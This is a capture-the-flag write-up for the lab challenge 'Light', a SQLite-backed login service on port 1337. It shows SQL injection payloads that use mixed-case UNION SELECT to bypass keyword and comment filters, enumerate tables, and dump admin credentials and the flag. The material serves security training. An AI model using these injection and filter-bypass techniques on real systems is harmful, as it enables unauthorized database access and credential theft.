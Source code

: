 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

Catch the flags.
## Scenario

I am working on a database application called Light! Would you like to try it out?  
If so, the application is running on **port 1337**. You can connect to it using `nc MACHINE_IP 1337`  
You can use the username `smokey` in order to get started.
# Exploit
## NetCat

First we use [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) to connect :

```Kali
└─$ nc 10.10.29.76 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: 
```

we try some special characters to see if there are any filters.

```
Please enter your username: ,.<>/?;:'"\-%*
Error: unrecognized token: ""\-%*' LIMIT 30"
```

We see that any characters after **‘** are thrown in the error message in addition to the command **LIMIT 30**. LIMIT 30 gives us a clue that this database is running a flavour of [SQL](../../3%20-%20Tags/Programming%20Languages/SQL.md). The command is meant to limit the output to 30 records.

With the above error message, we can have a sense of what the SQL query code is like:

`SELECT password FROM <TABLE_NAME> WHERE username = '<USER_INPUT>' LIMIT 30`

## SQL injection

Trying a common [SQL Injection](../../3%20-%20Tags/Hacking%20Concepts/SQL%20Injection.md) code:

```
Please enter your username: ' OR '1' = '1' --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)

```

We notice the ways of commenting in SQL are being filtered/blocked. Modifying the code a bit:

```
Please enter your username: ' OR '1' = '1
Password: tF8tj2o94WE4LKC

```

This is analogous to : `SELECT password FROM <TABLE_NAME> WHERE username = '' OR '1' = '1' LIMIT 30`

We get a response with no error message which shows that an SQL injection is possible. However, at this point, we do not know what flavour of SQL is running. It could be MySQL, SQLite, Postgres, etc. Each SQL engine has its own way of listing tables in the database therefore, it is crucial that the flavour of SQL used be enumerated.

The application also blocks and filters SQL commands such as **SELECT** or **UNION**. However, we can bypass this filter by simply randomizing the capitalization of the commands (e.g. SeLeCT or UniOn).

The input below was successful in determining the SQL version. The SQL flavour running is SQLite.

```
Please enter your username: 1' uNion SeLeCt sqlite_version() '1
Password: 3.31.1

```

Next, we need to know the SQL table to use in our query. To do this, we need to list out all tables in the current database. Using this SQL query:

```
Please enter your username: 1' uNion SeLeCt name FROM sqlite_master '1
Password: admintable

```

We see that there is a table called admintable. We can then query this table for the username column for the admin username via the SQL query:

```
Please enter your username: 1' uNion SeLeCt username from admintable '1
Password: TryHackMeAdmin
```

and we have the username : **TryHackMeAdmin**  ; now just change the column to query to password with a filter of username :

```
Please enter your username: 1' uNion SeLeCt password from admintable where username = 'TryHackMeAdmin
Password: mamZtAuMlrsEy5bp6q17

```

Last but not least, we need to find the flag. You can find the flag by querying for the password but using no filters. The SQL query to be used:

`' uNiOn SeLeCt password FROM {REDACTED_TABLE} WHERE username LIKE 'flag`
